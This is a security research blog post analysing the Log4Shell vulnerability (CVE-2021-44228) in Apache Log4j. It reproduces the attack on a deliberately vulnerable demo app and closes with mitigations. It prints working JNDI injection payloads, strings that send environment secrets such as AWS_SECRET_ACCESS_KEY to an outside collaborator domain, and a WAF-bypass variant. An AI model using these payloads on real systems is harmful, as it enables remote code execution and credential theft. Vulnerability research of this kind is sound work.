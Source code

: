 ```yaml
---
layout: post
title:  "Apache Log4j RCE 0day: CVE-2021-44228"
date:   2021-12-11 16:00:00 +0700
categories: research
author: Quang Vo
tags: 0day, log4j, cve-2021-44228
description: Research analysis and develop a working exploit poc script 
---
```


Reference:
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java


## Introduction Apache Log4j and Description of the vulnerability
Apache Log4j is one of the most popular logging library, widely used in Java web applications and Apache products ( such as Apeche Struts, Apache Solr, ... ).

Because of the nature of the library is logging, the data being logged originates from user inputs. If the user input contains some special characters and logged by `Log4j`, the Java method `lookup` will be called to execute a user-defined remote class in the LDAP server.
This will eventually becomes RCE ( depends on environment configrations ) 

JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` are not affected by the RMI attack vector. But LDAP attack vector can works with all versions of JAva due to deserialzation attack, the LDAP server will return a serialized object which will eventually get deserialized on victim's server. Remote Code Execution ( RCE ) depends on gadget availability in the Java classpath.

## Affected version 

Apache Log4j 2.x <= 2.15.0-rc1

## Affected Software

There have been reports said that Steam, Apple and Twitter vulnerable to this attack, and other softwares like:
- Apache Struts
- Apache Solr
- Elasticsearch
- Ghidra

...

## Exploitation

### 1. Reproduce with vulnerable app
Link to the vulnerable app that use `log4j`: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

Start the app:
```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Example of vulnerable code:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

}
```

Setup malicious [JDNI server](https://github.com/welk1n/JNDI-Injection-Exploit)

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned" -A "0.0.0.0"
```

Sending payload to the vulnerable web app:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ip>:1389/<payload>}'
```

Response from malicious JDNI server:

<img width="1117" alt="image" src="https://user-images.githubusercontent.com/37280106/145718737-a635ce03-5265-4b49-a3e6-3bfaf49a46e0.png">

Log from the vulnerable app:
```
2021-12-12 15:29:32.630  INFO 1 --- [nio-8080-exec-5] HelloWorld                               : Received a request for API version Reference Class Name: foo

```

### 2. Exploit steps

1. Data from user inputs get logged from the back-end that using `log4j`
2. User send malicious payload that get logged in server: `${jdni:ldap://<attacker_ip>/a` 
3. The Log4j vulnerablity triggered by this payload and server makes a request to `<attacker_ip>` server via JDNI 
4. The attacker's server response a path to a remote Java class file ( `https://attack-server/Exploit.class` ) which injected to victim's server process
5. The Injected payload got triggered, allows an attacker to gain remote code execution.

### 3. Extract environment from vulnerable server
```
${jndi:ldap://${env:USER}.collabolatorendpoint.net/a}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.collabolatorendpoint.net/a}
${jndi:ldap://${env:VAULT_KEY}.collabolatorendpoint.net/a}

...
```

### 4. Bypass WAF ( Cloudflare, ... )

```
${${lower:j}ndi:${lower:l}dap://${env:USER}.collabolatorendpoint.net/a}
```

## Mitigation
- Update to log4j version `2.15.0-rc2` 
- Block all untrusted outbound traffic
- Add "log4j.format.msg.nolookups=true" global configuration

